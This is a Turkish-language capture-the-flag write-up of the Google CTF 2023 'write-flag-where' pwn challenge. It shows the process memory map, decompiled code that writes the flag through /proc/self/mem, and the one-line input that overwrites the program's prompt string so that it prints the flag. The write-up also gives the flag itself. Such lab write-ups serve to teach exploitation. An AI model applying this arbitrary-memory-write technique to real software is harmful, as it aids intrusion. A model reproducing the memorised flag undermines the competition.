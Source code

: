 # Google CTF 2023

## PWN

### WRITE-FLAG-WHERE

#### Çözüm

Programı açtığımızda bizden bir adres ve uzunluk istemektedir ve temin ettiğimiz adrese, temin ettiğimiz karakter sayısınca aradığımız FLAG'i yazacağını söylemektedir. Bunun ise bir döngü içerisinde yapıldığını görüyoruz.
```
== proof-of-work: disabled ==
This challenge is not a classical pwn
In order to solve it will take skills of your own
An excellent primitive you get for free
Choose an address and I will write what I see
But the author is cursed or perhaps it's just out of spite
For the flag that you seek is the thing you will write
ASLR isn't the challenge so I'll tell you what
I'll give you my mappings so that you'll have a shot.
56454b4d0000-56454b4d1000 r--p 00000000 00:11e 810424                    /home/user/chal
56454b4d1000-56454b4d2000 r-xp 00001000 00:11e 810424                    /home/user/chal
56454b4d2000-56454b4d3000 r--p 00002000 00:11e 810424                    /home/user/chal
56454b4d3000-56454b4d4000 r--p 00002000 00:11e 810424                    /home/user/chal
56454b4d4000-56454b4d5000 rw-p 00003000 00:11e 810424                    /home/user/chal
56454b4d5000-56454b4d6000 rw-p 00000000 00:00 0 
7f7529e87000-7f7529e8a000 rw-p 00000000 00:00 0 
7f7529e8a000-7f7529eb2000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f7529eb2000-7f752a047000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a047000-7f752a09f000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a09f000-7f752a0a3000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a0a3000-7f752a0a5000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f752a0a5000-7f752a0b2000 rw-p 00000000 00:00 0 
7f752a0b4000-7f752a0b6000 rw-p 00000000 00:00 0 
7f752a0b6000-7f752a0b8000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0b8000-7f752a0e2000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0e2000-7f752a0ed000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0ee000-7f752a0f0000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f752a0f0000-7f752a0f2000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fff2b6cf000-7fff2b6f0000 rw-p 00000000 00:00 0                          [stack]
7fff2b7be000-7fff2b7c2000 r--p 00000000 00:00 0                          [vvar]
7fff2b7c2000-7fff2b7c4000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```
Programı decompile ettiğimizde çok daha basit bir şekilde görebiliyoruzki program sürekli olarak adresi istediği string'i print etmektedir. *Give me an address...* 

```c
while( true ) {	
	dprintf(var_14h,"Give me an address and a length just so:\n<address> <length>\nAnd I\'ll write it wherever you want it to go.\nIf an exit is all that you desire\nSend me nothing and I will happily expire\n");	
	buf = (char *)0x0;	
	var_70h = 0;	
	var_68h = 0;	
	var_60h = 0;	
	var_58h = 0;	
	var_50h = 0;	
	var_48h = 0;	
	var_40h = 0;	
	var_1ch = read(var_14h, &buf, 0x40);	
	iVar1 = __isoc99_sscanf(&buf, "0x%llx %u", (int64_t)&nbytes + 4, &nbytes);	
	if ((iVar1 != 2) || (0x7f < (uint32_t)nbytes)) break;	
	fd = open("/proc/self/mem", 2);	
	lseek64(fd, stack0xffffffffffffffd8, 0);	
	write(fd, flag, (uint32_t)nbytes);
	close(fd);
	}
exit(0);
dprintf(var_14h, "Somehow you got here??\n");
uVar2 = abort();
```

Programın içinde bu yazının bulunduğu bölgeyi buluyup, oraya Flag'ı yazdırırsak, program "*Give me an address...*" yazısı yerine Flag'ı yazdıracaktır.

Bunun için programın içinde bu string'i arıyoruz ve **0x21E0** offsetinde olduğunu görüyoruz.

Daha sonra bize verdiği main adresinin üstüne bu offset'i eklediğimizde program bize Flag'ı veriyor. 

```
Give me an address and a length just so:
<address> <length>
And I'll write it wherever you want it to go.
If an exit is all that you desire
Send me nothing and I will happily expire
0x56454B4D21E0 120
CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}
```

